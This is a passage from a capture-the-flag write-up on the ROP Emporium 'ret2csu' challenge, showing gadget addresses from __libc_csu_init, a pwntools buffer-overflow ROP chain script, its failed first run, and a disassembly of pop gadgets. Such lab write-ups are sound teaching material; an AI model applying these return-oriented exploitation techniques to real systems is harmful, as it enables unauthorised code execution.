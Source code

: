 Since the executable does not have PIE enabled, we can safely assume that the memory addresses of these instructions will be the same as shown in the snippet during runtime. By inspecting this disassembled section of `__libc_csu_init()`, we found an instruction that moves the value of `r15` to `rdx` at `0x400680`.

Now let's copy all of the required addresses into `win.py` and watch what happens.

```python
from pwn import *
...
RET = p64(0x4004e6) # ret
POPRDI = p64(0x4006a3) # pop rdi ; ret
POPRSIR15 = p64(0x4006a1) # pop rsi ; pop r15 ; ret
MOVRDXR15 = p64(0x400680) # mov rdx, r15
RET2WIN = 0x400510
ARG0 = 0xdeadbeefdeadbeef
ARG1 = 0xcafebabecafebabe
ARG2 = 0xd00df00dd00df00d
...
attack = b"A"*0x28
attack += POPRDI + p64(ARG0)
attack += POPRSIR15 + p64(ARG1) + p64(ARG2)
attack += MOVRDXR15
attack += RET + p64(RET2WIN)
...
```

```
$ ./win.py
...
ret2csu by ROP Emporium
x86_64

Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.

> Thank you!
[*] Got EOF while reading in interactive
...
```

Obviously, the last question in a test can't be that simple. If you know your stuff, you would have realised that there are a lot of instructions between `mov rdx, r15` and the next `call` or `ret`, so we can't simply add `MOVRDXR15` to our attack and expect everything to work.

What do?

Let's take a look at the instruction at `0x40069a` (nice) and after:

```
...
   0x000000000040069a <+90>:    pop    rbx <- IMPORTANT
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret
...
```
